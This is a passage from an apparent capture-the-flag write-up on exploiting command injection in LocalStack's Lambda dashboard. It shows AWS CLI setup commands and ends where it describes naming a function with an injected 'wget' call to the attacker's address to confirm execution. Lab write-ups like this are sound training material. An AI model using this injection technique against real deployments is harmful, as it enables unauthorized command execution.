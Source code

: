 Though there are no functions configured, the fact that this didn't error out indicates the above hypothesis is true. This is the LocalStack AWS API endpoint.

```bash
$ aws --endpoint-url=http://s3-testing.stacked.htb lambda list-functions
{
    "Functions": []
}
```

---

## LocalStack Lambda Command Injection to `localstack`

One of the [critical vulnerabilities](https://blog.sonarsource.com/hack-the-stack-with-localstack) in LocalStack 12.0.6 is in the way its dashboard retrieves the configured Lambda functions. When the dashboard is retrieved, the `POST /lambda/$FUNCTION_NAME/code` LocalStack endpoint is queried. Soon thereafter, `$FUNCTION_NAME` is passed to a shell command, unsanitized. Thus, by configuring a Lambda function with a shell command as its name and causing the user to browse to the LocalStack dashboard (`http://localhost:8080`, according to the `docker-compose.yml` file and the LocalStack documentation), the injected shell command will be executed.

Start by creating a generic execution policy for the Lambda function to run under.

```bash
$ aws --endpoint-url=http://s3-testing.stacked.htb iam create-role --role-name lambda-ex --assume-role-policy-document '{"Version": "2012-10-17","Statement": [{ "Effect": "Allow", "Principal": {"Service": "lambda.amazonaws.com"}, "Action": "sts:AssumeRole"}]}'
{
    "Role": {
        "Path": "/",
        "RoleName": "lambda-ex",
        "RoleId": "dqtj2ss366knjvnqedgx",
        "Arn": "arn:aws:iam::000000000000:role/lambda-ex",
        "CreateDate": "2022-03-20T06:20:02.695000+00:00",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "lambda.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "MaxSessionDuration": 3600
    }
}
```

Create a Node.js Lambda function whose name contains the injected command `wget 10.10.14.61`. If the attacker's web server receives a request, command injection is confirmed.
